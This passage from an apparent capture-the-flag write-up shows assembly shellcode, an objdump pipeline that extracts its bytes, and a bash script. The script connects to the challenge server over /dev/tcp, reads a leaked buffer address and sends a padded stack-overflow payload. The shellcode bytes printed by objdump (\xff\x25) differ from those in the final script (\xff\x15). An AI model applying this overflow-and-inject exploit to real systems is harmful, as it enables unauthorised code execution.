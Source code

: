 ```asm
# Write to address and jump to function
    global _start
    section .text

_start:
    mov byte [0x08048864], 0x32   ; Change flag1.txt to flag2.txt
    call [0x080486AB]             ; Call giveFlag()
```
Again, this was compiled with:
```
> nasm -felf change_filename.asm -o change_filename.o && ld -m elf_i386 -o change_filename change_filename.o
```
and the codes we need for our script was output with:
```
> objdump -d ./change_filename|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xc6\x05\x64\x88\x04\x08\xff\x25\xab\x86\x04\x08"
```
This is now only 12 bytes long, so we'll have to pad our string with 51 A's to fill the buffer before writing the address to call our code. The final script for this is:
```bash
#!/bin/bash

# Open a socket to the server
exec 3<>/dev/tcp/ctf.hackucf.org/32101

# Get the address of the buffer
buf_addr=$(head -1 <&3)
echo Found: $buf_addr
buf_addr=$(echo $buf_addr | cut -d '=' -f 2 | cut -d 'x' -f 2)
echo Extracted: $buf_addr

# Convert to the format we need
# First check the address is 4 bytes long
addr_len=${#buf_addr}
while [ $addr_len -lt 8 ]
do
  buf_addr=0$buf_addr
  addr_len=${#buf_addr}
done

# Now get the bytes from last to first
hex_addr=
for i in $(seq 3 -1 0)
do
  pos=$((i*2))
  hex_addr="${hex_addr}\\x${buf_addr:$pos:2}"
done
echo "As hex chars (little endian): $hex_addr"

# Build the string we need
# The code we want to execute plus, some filler
# and the address of the buffer as the return
# address
send_str=$(python -c 'print("\xc6\x05\x64\x88\x04\x08\xff\x15\xab\x86\x04\x08" + "A"*51)')
send_str=$send_str$(python -c "print('$hex_addr')")

# Send the string
echo $send_str > inp.txt
echo $send_str >&3

# Get the result
cat <&3
```